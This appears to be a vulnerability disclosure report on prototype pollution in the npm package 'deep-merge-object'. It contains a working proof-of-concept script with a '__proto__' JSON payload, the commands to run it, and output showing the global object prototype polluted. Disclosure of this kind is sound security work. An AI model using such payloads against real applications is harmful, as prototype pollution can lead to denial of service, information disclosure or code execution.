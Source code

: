 # Description

`deep-merge-object` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var {objectMerge } = require("deep-merge-object")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
objectMerge(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i deep-merge-object # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
